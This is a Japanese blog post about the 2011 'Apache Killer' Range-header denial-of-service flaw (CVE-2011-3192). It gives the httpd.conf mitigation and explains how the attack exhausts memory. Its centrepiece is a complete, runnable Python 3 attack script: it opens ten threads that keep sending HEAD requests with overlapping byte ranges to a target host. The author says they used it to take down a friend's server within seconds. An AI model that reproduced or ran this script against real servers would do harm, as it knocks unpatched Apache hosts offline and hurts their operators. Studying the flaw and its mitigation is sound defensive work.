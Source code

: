 ```yaml
---
title: pythonでapache killerを書いてみる
pubtime: 2015-07-01T15:25+0900
amp: hybrid
tags: [apache, apache_killer, 脆弱性, CVE-2011-3192, Range]
description: 友人のサーバの脆弱性を調べていたらapacheのバージョンが古かったので、試しにapache killerと言われる攻撃手法を試してみました。
---
```


友人の自宅サーバの脆弱性検査をしていたら、apacheのバージョンが随分と古かったのでapache killer(CVE-2011-3192)をさくっと叩いてみました。
ツール起動して十数秒でダウンするという恐ろしさ。

この脆弱性を持っているのはApache 2.2.19以前と、2.0.64以前らしいです。

**httpd.conf**に以下のような設定を付け足すと大丈夫になるようです。
``` apache
# Drop the Range header when more than 5 ranges.
# CVE-2011-3192
SetEnvIf Range (?:,.*?){5,5} bad-range=1
RequestHeader unset Range env=bad-range

# We always drop Request-Range; as this is a legacy
# dating back to MSIE3 and Netscape 2 and 3.
RequestHeader unset Request-Range
```
[参考サイト](http://blog.tokumaru.org/2011/08/apache-killerapache-killer.html)に載っていたのそのままなのでコメント入ってますけど、結局のところ三行。シンプルだね。

さて、本題。
攻撃用に書いたコードがこんな感じです。python3。
``` python
import socket
import threading


target = ''  # target host name. eg. 'example.com'


dat = '''HEAD / HTTP/1.1
Host: {}
Range: bytes=0-1,1-2,2-3,3-4,4-5,5-6,6-7,7-8,8-9,9-10,10-11,11-12,12-13,13-14,0-1
Accept-Encoding: gzip
Connection: keep-alive


'''.format(target).encode('ascii')


def attack():
    while True:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect((target, 80))

        while True:
            sock.send(dat)
            if sock.recv(1024) == b'':
                break


if __name__ == '__main__':
    for i in range(10):
        t = threading.Thread(target=attack).run()
```
ご覧いただくとお分かり頂けるように、Rangeヘッダになんか凄い値が入っています。
0バイト目から1バイト目、1バイト目から2バイト目、2バイト目から・・・みたいな指定の仕方。
こういった感じでRangeヘッダで分割しまくると、メモリを物凄く食ってしまうそうです。

このコードではkeep-aliveを指定したコネクションを張るスレッドを10個立てて、件のリクエストを送り続けます。
アクセスログ見てるとかなり面白い。

そんなわけで。もう一度対策の設定を見てみる。
``` apache
SetEnvIf Range (?:,.*?){5,5} bad-range=1  # Rangeヘッダに,がいっぱいある場合はbad-rangeに1を設定
RequestHeader unset Range env=bad-range  # bad-rangeが設定されているなら、Rangeヘッダを削除。
```
こんな感じか。なるほど。

``` apache
RequestHeader unset Request-Range
```
こっちの意味はよく分からんのですが、コメントを見る限りでは古いブラウザの一部がこのヘッダを指定してくる、ということなのかな？

余談ですが、サーバのバージョンは必ず隠そうね。どういう脆弱性があるかを推察されてしまう。

---

参考：
- [Apache killerは危険&#65374;Apache killerを評価する上での注意&#65374; | 徳丸浩の日記](http://blog.tokumaru.org/2011/08/apache-killerapache-killer.html)
- [Here's a Preliminary "Apache Killer" Test Script - Blogging Techstacks](http://blog.techstacks.com/2011/08/heres-a-preliminary-apache-killer-test-script.html)
